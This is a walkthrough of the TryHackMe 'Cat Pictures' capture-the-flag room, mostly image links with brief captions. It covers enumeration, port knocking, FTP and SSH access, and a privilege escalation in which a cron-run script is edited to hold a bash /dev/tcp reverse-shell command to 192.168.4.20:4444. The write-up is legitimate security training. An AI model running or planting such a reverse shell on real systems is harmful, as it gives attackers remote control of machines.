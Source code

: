 Link room: https://tryhackme.com/room/catpictures
# ENUMERATING
## using nmap
![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/e5adc94f-493a-4fda-b978-d3509a36ff07)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/a9b26335-4fc1-4223-9113-e98b12c31fe1)
## view web
![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/f6e609d6-001a-4ceb-8a94-2d4624f91cdc)

Click on the post

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/759293e2-ca20-4305-b7b6-4e53c9cda733)

=> knocking port

# EXPLOITING
## knocking
![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/d47e71d1-0650-4a90-8e09-f18dab96f7b0)

After I use command ```knock```. Port 21 is in the open state

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/8c626300-f22d-4c56-80fe-3a7a68950193)

## connect to ftp server

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/2ae71630-593a-45e5-b19a-34315607248e)

=> port 4420 has internal shell service. Now I try using ```nmap```  to view port 4420.

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/3aa4ddfb-8a82-4b65-84be-9c2d3ec130e5)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/245bf74e-4993-45cc-afc1-03db07478c53)

## connect to port 4420 with ```nc```
![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/0a98bcf9-44e2-4bd1-b538-5c988b89eaab)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/06a637ac-a10a-4335-bf73-0a66584df69b)

=> I try to use command to get regular shell. I enter it right on cmd.

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/c54bec0b-25d9-47c1-a6f3-b70ea8e96be3)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/1ad0b79c-0a95-4126-a45e-2ca519ece967)

=> look at runme 
 
![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/271812bf-5071-4fe4-bf70-f4213f4a37e7)

Now I run runme service with passowrd : rebecca and get private key.

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/d5b41fc0-8a7d-489e-a1ad-50e8556a67d1)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/8951766a-5f8e-4071-a78c-2af4c910f014)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/48357723-f91a-4775-bbd8-31d5203d5425)
## connect to ssh server
![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/ebb18669-d19f-4f47-ab6f-49a1c06080b8)

=> flag.txt
# PRIVILEGE ESCALATION
## view .bash_history
![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/0c818653-25b2-401e-bf17-7a9b4f09b375)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/9883cda9-6f18-4860-bd32-4f3e4dded603)

=> I find command ``` cat /opt/clean/clean.sh``` suspicious!!!

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/aef28462-3d6f-4cc7-8d6f-007e9b239e75)

=> I can edit file and get reverse shell. I use the command ```bash -i >&/dev/tcp/192.168.4.20/4444 <&1```
available in file clean.sh . Also I can get it at pentestmonkey website.

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/11157618-51b7-4ada-a69c-c3bccaa25e89)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/e79e0ece-b8fc-4470-9062-3c4f87cd7df9)

=> root.txt

## Done!!!
Thanks for reading. Bye!

